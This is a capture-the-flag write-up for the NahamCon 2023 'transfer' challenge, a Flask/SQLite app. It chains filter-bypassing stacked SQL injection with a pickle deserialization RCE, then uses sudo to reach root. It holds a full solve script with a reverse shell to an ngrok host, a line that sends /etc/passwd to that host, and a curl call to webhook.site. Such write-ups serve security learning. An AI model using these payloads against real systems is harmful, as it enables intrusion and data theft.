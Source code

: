 # NahamCon CTF 2023

## ChallengeName: transfer

### ChallengeDiscription: 
 - Escalate your privileges and find the flag.

 **The challenge source code avilavle**

- Technologies used flask and sqlite




 Once I locked into code I found that it's just filtering single-qoutes and spaces
 in loging part

 ```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")

@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"

 ```

 - to bypass single-qoute use `\` because they're replacing `\` with `'`
 - to bypass spaces add comment betweeen words to separate them `/**/`
 example `SELECT/**/username/**/WHERE.....`



 - Going further in code analyzing found that I can't bypass loging because they used `executescript` and  `fetchone` methods together
 means that you can't loging even if you have a username and a password because `fetchone` value will always be `None` it only works with `execute` not `executescript`

 ```python
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    if user:
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))

 ```

 - The adventage here is `executescript`  accepts multiple queries at once!!!

in app.py our source code there's an insert to database it's file named `flag.txt` but it's value is just simple text

```python
c.execute("INSERT OR IGNORE INTO files VALUES ('flag.txt', ?, NULL)",
                  (base64.b64encode(pickle.dumps(b'lol just kidding this isnt really where the flag is')).decode('utf-8'),))
```

- Now let's go to another indpoint which is

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
```
 with this indpoint we can read a flag tabel if we have a valid `sessionId`

 - So the only way is to create a new one but how???

using the password parameter and `executescript` method we discussed above

the pyload will be something like:
```sql
password';INSERT/**/INTO/**/activesessions/**/(sessionid,/**/timestamp)/**/VALUES/**/('c373e6e3-d0ed-442a-a9b4-f64d643d7111',/**/'2023-06-17/**/22:39:01.841728');--
```

but when I try to read the flag server cruched because of a deprecated argument in `send_file` `download_name`

but after a discuss with my friend `@BlackHole1004` he toled me about an rce in `pickle.loads`
it simply diserialized an object if that serialized with `pickle.dumps`

```python
class RCE:
	def __reduce__(self):
		cmd = ("curl https://webhook.site/[id]")
		return os.system, (cmd,)

command = base64.b64encode(pickle.dumps(RCE())).decode('utf-8') #serialized object 

```
the problem is when I try `curl` `wget` `nc` no one were instaled 
so I used python socket to read a file firs to check if my payload is working and yeah 

## Solution 

step 1 insert our reverse-shell payload serialized object into files table
step 2 insert new sessionId to activesessions table so that we can read our file which is our rce object
step 3 start listen on my ngrok url and port and run script 


`solve.py`:
```python
import requests
import uuid
from datetime import datetime, timedelta
import pickle
import base64
import os
import random
import string

def generate_random_string(length):
	characters = string.ascii_letters
	return ''.join(random.choice(characters) for _ in range(length))

class RCE:
	def __reduce__(self):
		# cmd = ("python3 -c \"import socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('4.tcp.eu.ngrok.io',18312));s.send(open('/etc/passwd','rb').read())\"")
		cmd = ("python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('4.tcp.eu.ngrok.io',18312));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"")
		return os.system, (cmd,)

command = base64.b64encode(pickle.dumps(RCE())).decode('utf-8')

print(command)


def DBClean(string):
	for bad_char in " '\"":
		string = string.replace(bad_char,"")
	return string.replace("\\", "'")


password = "pass"
session_id = str(uuid.uuid4())
session = f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')"


filename = generate_random_string(5)
print(filename)

add = f"INSERT OR IGNORE INTO files VALUES ('" + filename + "', '" + command + "', NULL)"

input = "admin';" + session + ";" + add + ";--"

password = input.replace(" ", "/**/").replace("'","\\")
print(password)
user = 'admin'


sql = f"SELECT * FROM users WHERE username='{DBClean(user)}' AND password='{DBClean(password)}'"
print('\n=================================================================\n')
print(sql)

url = 'http://challenge.nahamcon.com:30939/login'
data = {
	'username': 'adminn',
	'password': password
}

response = requests.post(url, data=data)
if response.status_code == 200:
	print('Login successful!')
	print(response.text)

	# Second request
	print("\n\n++++++++++++++++++ try reading flag ++++++++++++++++++++++\n\n")
	url = 'http://challenge.nahamcon.com:30939/download/' + filename +'/' + session_id
	response = requests.get(url)
	if response.status_code == 200:
		print('Download successful!')
		content = response.content
		print("content")
		print(content)
	else:
		print('Download failed. Status code:', response.text)

else:
	print('Login failed. Status code:', response.status_code)

```

- I got a shell I check the database and it wasn't contain any flag

I took a look again into challenge discription and I `escalate your privilages to get the flag`


`sudo -l` and yeah it was `ALL nopassword` 


```shell
sudo /bin/bash
id
# I'm root
```
I changed directory to `/root`
and I found the flag

